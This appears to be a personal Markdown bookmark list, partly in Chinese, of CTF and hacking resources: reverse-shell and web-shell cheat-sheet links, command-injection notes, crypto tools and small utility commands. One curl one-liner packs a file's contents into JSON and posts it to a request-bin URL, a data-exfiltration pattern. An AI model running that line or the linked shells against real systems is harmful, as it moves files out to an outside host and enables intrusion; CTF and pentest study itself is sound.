 # Tools

## CTF-Tools

* [CyberShef](https://gchq.github.io/CyberChef/#input=8J%2BNo/CfjbTwn42m8J%2BMtPCfjaLwn4278J%2BNs/CfjbTwn42l8J%2BNp/CfjaHwn42u8J%2BMsPCfjafwn42y8J%2BNofCfjbDwn42o8J%2BNufCfjZ/wn42i8J%2BNufCfjZ/wn42l8J%2BNrfCfjLDwn4yw8J%2BMsPCfjLDwn4yw8J%2BMsPCfjarwn42p8J%2BNvQo)
* [Hack Tricks](https://book.hacktricks.xyz/tunneling-and-port-forwarding)
* [Command Injection](https://blog.zeddyu.info/2019/01/17/%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/#%E5%8F%8D%E5%BC%95%E5%8F%B7%EF%BC%88%E9%87%8D%E9%9F%B3%E7%AC%A6%EF%BC%89)

### Web Shell
* https://www.webshell.cc/4422.html

### Rev Shell
* [Reverse Shell大全](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) 
* [GitHub List Rev](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

### Crypto
* https://blog.csdn.net/qq_38780085/article/details/79305488
* [BrainFuck](https://gist.github.com/maxcountryman/1699708)

## 生活駭客

* [Word 放 Code](http://www.planetb.ca/projects/syntaxHighlighter)
* [Android 螢幕投影](https://www.google.com/search?q=apowermirror&oq=apowermirror&aqs=chrome..69i57j0l7.5587j0j7&sourceid=chrome&ie=UTF-8)
* [Bash Command Search](https://ss64.com/)
* [7z-CLI-用法](https://www.cnblogs.com/sparkdev/p/5598062.html)
    ```bash=
    7z.exe a <target> <source: 只能用相對路徑>
    ```
* [PCHunter Tool](https://www.bleepingcomputer.com/download/pc-hunter/)
    * Windows系統訊息查看，輔助殺毒文件
* Python HTTP Server
    ```python
    python -m http.server 8080
    ```
* curl 配 request-bin 傳檔
    ```bash
    (echo -n '{"payload": "'; <file>; echo '"}') | curl -H "Content-Type: application/json" -d @- <requests-bin url>
    ```

## Hacking Trick

### MD5 Collision
* somd5.com
* cmd5.com

## Paid Software Download

* [免費Java - OpenJDK download](https://adoptopenjdk.net/)
* [Patch My PC](https://patchmypc.com/home-updater)

## Shodan
![](https://i.imgur.com/qBAtBQB.png)

## Reverse Shell Upload File

- https://ironhackers.es/en/cheatsheet/transferir-archivos-post-explotacion-cheatsheet


